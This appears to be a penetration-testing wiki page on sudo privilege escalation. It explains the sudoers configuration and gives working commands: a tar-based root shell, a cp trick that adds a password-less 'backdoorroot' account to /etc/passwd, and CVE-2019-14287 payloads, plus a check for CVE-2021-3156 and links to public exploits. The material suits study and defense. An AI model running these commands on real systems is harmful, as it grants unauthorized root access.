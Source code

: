 # SUDO

## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯 _I know right, big brains here_  🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.

![](../../../.gitbook/assets/sudoers_config.png)

## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure configuration, or by exploiting the program's vulnerabilities.

### Default configurations

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

### Living off the land

While, the SUDO configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### CVE-2019-14287 \(\#-1\)

With SUDO running version &lt; 1.8.28, an attacker in control of a "runas ALL" sudoer account can bypass certain policy blacklists and session PAM modules by invoking sudo with a crafted user ID. 

Exploiting the bug requires sudo privileges and being able to run commands with an arbitrary user ID. This means the user's sudoers entry has to have the special value `ALL` in the "runas" specifier \(the yellow and green parts in [the doodle above](sudo-configuration.md#theory)\).

Vulnerable users can be found with the two commands below

```bash
grep -e '(\s*ALL\s*,\s*!root\s*)' /etc/sudoers
grep -e '(\s*ALL\s*,\s*\!#0\s*)' /etc/sudoers
```

The vulnerability can be exploited with one of the following payloads

```bash
sudo -u#-1 sh -p
sudo -u#4294967295 sh -p
sudo -u#$((0xffffffff)) sh -p
```

{% hint style="info" %}
**Some technical details to the vulnerability**

Sudo uses the `setresuid(2)` and `setreuid(2)` system calls to change the user ID before running the command. So if you try to enter a negative user id `-1` \(or its 32-bit unsigned equivalent `4294967295`\), `setresuid(2)` and `setreuid(2)` cannot set a negative user id and you're left with the user id sudo is running with : `0`.

Therefore `sudo -u#-1 id -u` or `sudo -u#4294967295 id -u` will actually return `uid=0` and run command as root.

More info can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2019-14287)
{% endhint %}

### CVE-2021-3156 \(Baron Samedit\)

With SUDO running version &lt; 1.9.5p2, a Heap-based Buffer Overflow allows for privilege escalation to root via `sudoedit -s` and a command-line argument that ends with a single backslash character. To test if a system is vulnerable or not, the following command can be run as a non-root user.

```bash
sudoedit -s /
```

Patched versions will throw a `usage:` help message while vulnerable ones will throw the following `sudoedit:` error.

```text
$ sudoedit -s /
[sudo] password for user: 
sudoedit: /: not a regular file
```

This vulnerability can be exploited with [this exploit](https://github.com/r4j0x00/exploits/tree/master/CVE-2021-3156_one_shot), or [this one](https://github.com/worawit/CVE-2021-3156).

More info about this vulnerability can be found [here](https://nvd.nist.gov/vuln/detail/CVE-2021-3156) and [here](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

## References

{% embed url="https://gtfobins.github.io/\#+sudo" caption="" %}

{% embed url="https://jamesluo-843.medium.com/exploiting-cve-2019-14287-37eac7023a4" %}

{% embed url="https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit" %}



